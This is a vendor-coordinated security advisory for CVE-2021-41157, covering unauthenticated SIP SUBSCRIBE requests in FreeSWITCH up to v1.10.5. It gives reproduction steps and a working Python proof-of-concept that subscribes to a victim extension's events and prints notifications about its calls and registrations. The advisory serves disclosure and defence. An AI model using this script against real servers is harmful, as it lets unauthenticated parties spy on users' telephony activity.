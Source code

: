 # FreeSWITCH does not authenticate SIP SUBSCRIBE requests by default

- Fixed versions: v1.10.7
- Enable Security Advisory: https://github.com/EnableSecurity/advisories/tree/master/ES2021-08-freeswitch-SIP-SUBSCRIBE-without-auth
- Vendor Security Advisory: https://github.com/signalwire/freeswitch/security/advisories/GHSA-g7xg-7c54-rmpj
- Other references: CVE-2021-41157
- Tested vulnerable versions: <= v1.10.5
- Timeline:
    - Report date: 2021-06-07
    - Triaged: 2021-06-08
    - Fix provided for testing: 2021-10-01
    - Vendor release with fix: 2021-10-24
    - Enable Security advisory: 2021-10-25

## Description

By default, SIP requests of the type SUBSCRIBE are not authenticated in the affected versions of FreeSWITCH. Although this issue was [fixed][1] in version v1.10.6, installations upgraded to the fixed version of FreeSWITCH from an older version, may still be vulnerable if the configuration is not updated accordingly. For good reason, by default, software upgrades do not update the configuration.

[1]: https://github.com/signalwire/freeswitch/commit/b21dd4e7f3a6f1d5f7be3ea500a319a5bc11db9e

## Impact

Abuse of this security issue allows attackers to subscribe to user agent event notifications without the need to authenticate. This abuse poses privacy concerns and might lead to social engineering or similar attacks. For example, attackers may be able to monitor the status of target SIP extensions.

## How to reproduce the issue

1. Install FreeSWITCH v1.10.5 or lower
2. Run FreeSWITCH using the default configuration
3. Register as a legitimate SIP user on the FreeSWITCH server using a softphone (e.g. sip:1000@192.168.188.128 where 192.168.188.128 is your FreeSWITCH server)
4. Save the below Python script to `anon-subscribe.py`
5. Run the script from an IP address that is different from that of the softphone `python anon-subscribe.py <freeswitch_ip> <freeswitch_port> <victim_extension>`
6. Perform some operations using the softphone, such as deregistering, registering, and placing a call
7. Observe that several notifications are received by the script, exposing the actions being performed by the victim

```python
import socket, string, random, re, sys

UDP_IP = sys.argv[1]
UDP_PORT = int(sys.argv[2])
EXT = sys.argv[3]
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

msg_template = "SUBSCRIBE sip:%s@%s;transport=UDP SIP/2.0\r\n" % (EXT, UDP_IP) + \
    "Via: SIP/2.0/UDP [ip]:[port];rport;branch=z9hG4bK-[rand]\r\n" \
    "Max-Forwards: 70\r\n" \
    "Contact: <sip:%s@[ip]:[port];transport=udp>\r\n" % (EXT, ) + \
    "To: <sip:%s@%s;transport=UDP>\r\n" % (EXT, UDP_IP) + \
    "From: <sip:9999@%s;transport=UDP>;tag=[rand]\r\n" % (UDP_IP, ) + \
    "Call-ID: [rand]\r\n" \
    "CSeq: 1 SUBSCRIBE\r\n" \
    "Expires: 600\r\n" \
    "Accept: */*\r\n" \
    "Event: [event]\r\n" \
    "Content-Length: 0\r\n" \
    "\r\n"

rand = ''.join(random.choice(string.ascii_letters) for i in range(16))
msg = msg_template.replace('[ip]', '127.0.0.1') \
    .replace('[port]', '9999') \
        .replace('[event]', 'dialog') \
            .replace('[rand]', rand)

sock.sendto(msg.encode(), (UDP_IP, UDP_PORT))

recv=sock.recv(10240).decode()

# get rport and received from Via header
rport=re.search( r'rport=([0-9]+)', recv, re.MULTILINE).group(1)
received=re.search( r'received=([0-9\.]+)', recv, re.MULTILINE).group(1)

events = [
    'talk', 'hold', 'conference', 'presence', 'as-feature-event', 'dialog', 'line-seize', 
    'call-info', 'sla', 'include-session-description', 'presence.winfo', 'message-summary', 
    'refer']

for event in events:
    rand = ''.join(random.choice(string.ascii_letters) for i in range(16))
    msg = msg_template.replace('[ip]', received) \
        .replace('[port]', rport) \
            .replace('[event]', event) \
                .replace('[rand]', rand)
    sock.sendto(msg.encode(), (UDP_IP, UDP_PORT))

while True:
    print(sock.recv(10240).decode().split('\r\n\r\n')[1])
```

## Solution and recommendations

Upgrade to a version of FreeSWITCH that fixes this issue.

Our suggestion to the FreeSWITCH developers was the following:

> Our recommendation is that SIP SUBSCRIBE messages are authenticated by default so that FreeSWITCH administrators do not need to explicitly set the `auth-subscriptions` parameter. When following such a recommendation, a new parameter can be introduced to explicitly disable authentication.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

